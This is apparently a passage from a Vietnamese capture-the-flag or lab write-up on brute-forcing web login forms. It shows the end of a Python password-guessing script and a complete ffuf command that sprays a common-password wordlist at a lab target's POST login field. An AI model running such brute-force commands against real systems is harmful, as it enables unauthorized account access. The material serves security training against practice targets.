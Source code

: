 ```python
            await asyncio.sleep(0.1)  # Cho phép hủy task  
    if found_password:  
        print(f"\n[+] Success! Password: {found_password}")  
        print(f"Response: {response_data[:200]}...")  # Hiển thị một phần response  
        sys.exit(0)  
    else:  
        print("\n[-] Password not found")  
        sys.exit(1)  
  
if __name__ == "__main__":  
    if sys.platform == "win32":  
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())  
  
    asyncio.run(main())
```

Hoặc

```zsh
ffuf -w /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt:FUZZ \  
-u http://94.237.121.185:30966/dictionary \
-X POST \
-d "password=FUZZ" \
-H "Content-Type: application/x-www-form-urlencoded" \
-t 100 \
-timeout 10 \
-mc 200
```

![](images/1.png)


# Basic HTTP Authentication

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.59.174:44167   

Life Left: 90 minute(s)
